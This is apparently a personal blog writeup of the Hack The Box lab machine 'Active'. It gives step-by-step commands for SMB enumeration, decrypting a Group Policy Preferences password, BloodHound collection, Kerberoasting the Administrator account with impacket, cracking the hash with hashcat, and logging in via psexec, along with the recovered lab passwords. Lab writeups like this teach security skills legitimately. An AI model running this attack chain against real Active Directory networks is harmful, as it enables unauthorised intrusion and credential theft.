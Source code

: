 ```yaml
---
layout: post
title: My first writeup! Hack The Box, Active
tags: [hackthebox, Active Directory, Bloodhound, hashcat, GPP]
---
```

![logo](/boxes/htb/active/activeDirectory.PNG)

### i. Port Scan
![nmap portscan](/boxes/htb/active/nmap.PNG)
### ii. Enumeration
SMB ports were listed open on the nmap scan. Let's check if any shares are available with smbclient and smbmap.
```
smbclient -L 10.10.10.100
smbmap -H 10.10.10.100
```
smbclient:   
![smbclient](/boxes/htb/active/smbclient.PNG)

smbmap:  
![smbmap](/boxes/htb/active/smbmap.PNG)

Smbmap reveals a file share called Replication with read only permissions. Smbmap can be used to list the contents of the Replication directory:
```
smbmap -R Replication -H 10.10.10.100
```
Looking through the contents of the Replication directory there is a file called Groups.xml. This is a group policy file where local account information is typically stored for older Active Directory implementations.

![ReplicationFiles](/boxes/htb/active/groupsxml.PNG)

To download the file we use:
```
smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q
```
Opening and reading the Groups.xml file, an account `SVC_TGS` and a encrypted password `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH` was found. 

![groupsxmlhash](/boxes/htb/active/grouphash.png)


The password is encrypted with a known key:

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be  
![msftknownkey](/boxes/htb/active/aes key.jpg)

To decrpyt the password, we use gpp-decrpyt:  

![gppdecrypt](/boxes/htb/active/gppdecrypt.png)

The decrypted hash is `GPPstillStandingStrong2k18`. Using the credentials we found we enumerate more shares.
```
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100
```
![moreshares](/boxes/htb/active/moreshares.PNG)

Logging in and enumerating these shares lead to the user flag under the `SVC_TGS\Desktop\` directory.

Now that we have credentials, let's use Bloodhound on the box. We switch to a Windows VM and run the following command:
```
runas /netonly /user:active.htb\svc_tgs cmd
```
Make sure to check your DNS settings on your network adapter and set it to 10.10.10.100. 

Run sharphound with the following command to gather information to use in Bloodhound:
```
sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100
```
A zip file should have been created with the infomartion to import into Bloodhound. Drag and drop the zip file created from into the user interface of Bloodhound to import the information. Checking for domain admin did not reveal anything. Checking for kerberoasting, the user `ADMINISTRATOR` is available for this attack.
![kerberoasting](/boxes/htb/active/kerberoasting.PNG)

Using GetUserSPN.py from impacket we will grab the hash of `ADMINISTRATOR`
```
GetUserSPN.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs
```
![adminhash](/boxes/htb/active/getUserSPN.PNG)

We copy the hash into a file and use hashcat to crack the hash via the following command:
```
hashcat -m 13100 hash.txt rockyou.txt 
```
![crackedhash](/boxes/htb/active/adminpw.PNG)

The Administrator password is: `Ticketmaster1968`

Now we can use psexec and log into the box and get the root flag
```
psexec.py active.htb/Administrator@10.10.10.100
```
![rootflag](/boxes/htb/active/rootflag.PNG)

